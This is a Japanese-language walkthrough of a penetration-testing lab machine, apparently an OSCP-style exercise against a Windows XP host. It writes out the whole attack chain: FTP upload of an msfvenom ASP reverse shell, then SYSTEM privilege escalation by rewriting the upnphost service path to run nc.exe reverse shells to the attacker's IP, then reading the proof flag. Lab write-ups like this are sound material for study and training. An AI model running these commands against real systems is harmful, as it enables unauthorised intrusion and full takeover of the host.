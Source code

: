```
ftp 10.11.1.14 21
ftp> dir
ftp> cd wwwroot
ftp> dir
```
aspタイプのreverseshellを作成
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.240 LPORT=4444 -f asp -o rshell.asp
```
rshell.aspアップロード
```
ftp> mput rshell.asp
```
http://10.11.1.14/rshell.aspを実行
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.119.240] from (UNKNOWN) [10.11.1.14] 3025
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
winPEAS.batをアップロード
```
ftp> mput winPEAS.bat
```
winPEASを実行しても特に使えそうな脆弱性が見つからない  
systeminfoを確認　　　   
OSがWindows XP ProfessionalなのでWebで「windows xp pro sp1 privilege escalation」と検索してみる   　　　   
https://sohvaxus.github.io/content/winxp-sp1-privesc.htmlここのサイトの情報で権限昇格する    
システムに脆弱性があるか確認するためにaccesschk.exeを実行する    
新しいaccesschk.exeは/accepteulaが使えなので古いバージョンをダウンロードする     

FTP経由で転送するバイナリでは、FTPセッションをバイナリに設定する必要がある。   
```
ftp> binary
200 Type set to I.
```
利用できる脆弱なサービスを探す
```
C:\> accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
この出力は、upnphostとSSDPSRVという名前のサービスパラメーターを編集できる2つのサービスにアクセスできることを示しています。両方のサービスを詳しく見てみる
```
C:\> accesschk.exe /accepteula -ucqv SSDPSRV
C:\> accesschk.exe /accepteula -ucqv upnphost
```
これらのサービスを編集して、選択したバイナリを実行する時、特権をSYSTEMにエスカレーションできる。   
upnphostは、特権をエスカレートするために使用するサービス   
「sc query SSDPSRV」コマンドで現在のステータスを確認   
サービスが停止しているので開始しようとするとエラーがでる   
```
C:\> sc query SSDPSRV
C:\> net start SSDPSRV
```
これを修正するには、SSDPSRVをDISABLEDからAUTOMATICに設定する必要がある。   
サービスがAUTOMATICに設定されると、サービスを開始できるようになる。   
これは、次のコマンドを実行する。 
```
C:\> sc config SSDPSRV start= auto
C:\> sc qc SSDPSRV
```
SSDPSRVがAUTOMATIC（AUTO_START）に正常に設定されたのでSSDPSRVをもう一度起動
```
C:\> net start SSDPSRV
```
nc.exeをアップロードする
```
ftp> binary
200 Type set to I.
ftp> put nc.exe
227 Entering Passive Mode (10,11,1,14,19,142).
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************| 36528      362.87 MiB/s    00:00 ETA
226 Transfer complete.
36528 bytes sent in 00:00 (65.01 KiB/s)
```
upnphostサービスの開始時に実行されるバイナリのパスを編集
```
C:\Inetpub\wwwroot>sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe -nv 192.168.119.240 1234 -e C:\WINDOWS\System32\cmd.exe
C:\> sc config upnphost obj= ".\LocalSystem" password= ""
```
upnphostサービスの最後のチェックを行い、すべてが正常であることを確認
```
C:\> sc qc upnphost
```
リスナー起動
```
nc -lnvp 1234
```
upnphostサービスを開始し、提供した新しいバイナリパスを介してリバースシェルを実行する
```
C:\Inetpub\wwwroot>net start upnphost
```
```
nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.119.240] from (UNKNOWN) [10.11.1.14] 3253
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
これで攻撃マシンのリスナーにSYSTEMシェルが届いた。
しかし、この接続は30秒ほどで閉じてしまう。
1つ目のリスナーでシェルを取得したらすぐに別のポートを指定したリスナーに接続し直せば切断されることはない

2つ目のリスナーを起動
```
nc -lnvp 4445
```
サービスを起動し1つ目のリスナーに接続
```
C:\Inetpub\wwwroot>net start upnphost
```
接続したら切断される前にリスナー２に接続する
```
nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.119.240] from (UNKNOWN) [10.11.1.14] 3253
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>C:\Inetpub\wwwroot\nc.exe -nv 192.168.119.240 4445 -e C:\WINDOWS\System32\cmd.exe
C:\Inetpub\wwwroot\nc.exe -nv 192.168.119.240 4445 -e C:\WINDOWS\System32\cmd.exe
(UNKNOWN) [192.168.119.240] 4445 (?) open
```
リスナー２
```
nc -lnvp 4445
listening on [any] 4445 ...
connect to [192.168.119.240] from (UNKNOWN) [10.11.1.14] 3254
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32
```
切断されないSYSTEMシェルを獲得
ファイル検索で「proof.txt」を検索
```
C:\>dir proof.txt /s
C:\>cd C:\Documents and Settings\Administrator\Desktop
C:\Documents and Settings\Administrator\Desktop>type proof.txt
type proof.txt
a26f37da4583ff68f44d133d12ae3459 
```
